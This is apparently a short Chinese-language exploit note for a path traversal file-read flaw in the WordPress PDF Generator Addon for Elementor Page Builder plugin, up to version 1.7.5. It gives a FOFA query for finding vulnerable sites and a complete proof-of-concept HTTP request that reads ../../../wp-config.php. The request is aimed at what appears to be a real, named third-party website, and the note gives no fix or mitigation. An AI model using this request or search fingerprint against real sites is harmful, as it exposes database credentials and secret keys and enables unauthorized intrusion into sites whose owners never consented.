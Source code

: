 # WordPress插件rtw_pdf_file任意文件读取漏洞

WordPress插件rtw_pdf_file任意文件读取漏洞，适用于 WordPress 的 Elementor Page Builder 插件的 PDF 生成器插件在 1.7.5 之前的所有版本中都容易受到路径遍历的攻击，包括 1.7.5 rtw_pgaepb_dwnld_pdf（） 函数。这使得未经身份验证的攻击者能够读取服务器上任意文件的内容，其中可能包含敏感信息。

## fofa
```javascript
"wp-content/plugins/pdf-generator-addon-for-elementor-page-builder"
```

## poc
```javascript
GET /?rtw_pdf_file=../../../wp-config.php&rtw_generate_pdf=1 HTTP/1.1
Host: korurealestate.co.uk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241227211927240](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272119351.png)